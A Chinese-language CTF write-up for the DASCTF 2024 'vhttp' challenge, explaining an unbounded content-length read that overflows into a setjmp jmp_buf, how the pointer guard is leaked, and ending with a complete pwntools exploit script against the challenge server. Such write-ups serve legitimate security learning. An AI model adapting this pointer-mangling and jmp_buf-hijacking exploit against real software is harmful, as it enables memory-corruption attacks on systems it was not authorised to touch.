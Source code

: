 ```yaml
---
title: DASCTF 2024暑期挑战赛 - vhttp
date: 2024/7/25 23:05:00
updated: 2024/7/25 23:05:00
tags:
    - httpd
    - setjmp
thumbnail: /assets/dasjuly2024/flagOnStack.png
excerpt: 通过栈溢出和jmp_buf利用成功读取flag.txt。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.12|

## 解题思路

程序实现了一个简单的http服务器，没有路径穿越符漏洞；不能直接打开目录下的flag.txt，
是由`strstr`拦截的；不能使用`%2F`这样的转义字符串，服务器不支持。那就逆一下程序，
对于输入的三元组和键值对来说，都没有什么bug。但是主函数里只取用了`content-length`这一个标头，
跟到解析请求资源的函数里，发现程序会按`content-length`读入这么多的字节数，
并且没有做限制。观察栈上结构，在输入的`buf`之上是用于`longjmp`的`jmp_buf`，
触发条件也有，因此尝试覆写之。程序通过特定字符串的判断，给了1次读取栈上内容的机会，
也给了`longjmp`的机会。

这道题采用了`fread`，不同于`read`，`fread`只有读取指定的长度后才会停止，
不像`read`只需要`send`结束就可以结束输入。那么就出现了一个问题：
`jmp_buf`的结构中RBP、RSP、RIP是受`fs:[0x30]`保护的，要想读取它们来解密`fs:[0x30]`就不能覆盖，
但是为了利用这个结构体却不能覆盖。难道要打rop？程序是没有返回的！
任何结果都是直接`exit`的。那么在栈上查找其他数据，发现还有一个`jmp_buf`:

```c
struct jmp_buf {
    size_t rbx;
    size_t rbp;
    size_t r12;
    size_t r13;
    size_t r14;
    size_t r15;
    size_t rsp;
    size_t rip;
    ...
};
```

![one more jmp_buf](/assets/dasjuly2024/oneMoreJmpbuf.png)

而这个`jmp_buf`是由程序使用了pthread库后创建线程带来的，其中的RBP是0，
那么RBP的位置可以直接获得`guard`(`fs:[0x30]`)的值，还可以获得一个主线程的栈地址。为了读取`flag.txt`，
我们需要想方设法在栈上留一个`&'flag.txt'`，三元组是保存在`bss`上的，content是保存在子线程的栈上的，
而这个栈帧的值我们是不知道的，只有标头键值对中的最后一组会留在主线程的栈上。
那么只要最后写一个`flag.txt`的标头就可以做到，然后设置好RBP、RSP，将RIP设置为`0x401ec7`，
就可以让程序读取`flag.txt`并打印flag。

![flag on stack](/assets/dasjuly2024/flagOnStack.png)
{% note tip fa-circle-info %}
温馨提示：与上图不是一个进程
{% endnote %}

![jump to ...](/assets/dasjuly2024/jumpto.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vhttp'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x401dd1')
    else:
        sh = remote('node5.buuoj.cn', 27536)
    elf = ELF(EXE)

    ADD_LINE = lambda s, cont: s + cont + '\r\n'

    base = ADD_LINE('', 'GET / HTTP/1.0')
    base = ADD_LINE(base, 'content-length: {}')
    base = ADD_LINE(base, 'flag.txt: 0')
    base = ADD_LINE(base, '')

    toleak = base.format(512 + 0x100 + 8).encode()
    sh.send(toleak)
    
    toleak = b'\r\nuser=newbew'.ljust(512 + 0x100) + b'LEAK PTR'
    sh.send(toleak) # leak the jmp_buf from pthread
    sh.recvuntil(b'LEAK PTR')

    encrypted = sh.recv(8)
    stack = u64(sh.recv(6) + b'\0\0')
    
    guard = 0
    PTR_DEMANGLE = lambda reg: ((reg >> 17) | ((reg & 0x1ffff) << (64 - 17))) ^ guard
    PTR_MANGLE = lambda reg: (((reg ^ guard) & 0x7fffffffffff) << 17) \
                            | (((reg ^ guard) & 0xffff800000000000) >> 64 - 17)

    guard = PTR_DEMANGLE(u64(encrypted))
    success(f'Leak ptr guard: {guard:#x}')
    success(GOLD_TEXT(f'Leak stack: {stack:#x}'))

    rbp = stack - 0xe + 0xe0 # now rbp points to &'flag.txt'
    rbp += 0x3a0 # now rbp is "resolved file path"
    tojump = b'&pass=v3rdant'.ljust(0x200) + p64(0) + p64(PTR_MANGLE(rbp)) + \
            p64(0) * 4 + p64(PTR_MANGLE(rbp - 0x3e0)) + p64(PTR_MANGLE(0x401ec7))
    tojump = tojump.ljust(0x308)
    sh.send(tojump)

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(flag.decode())
```
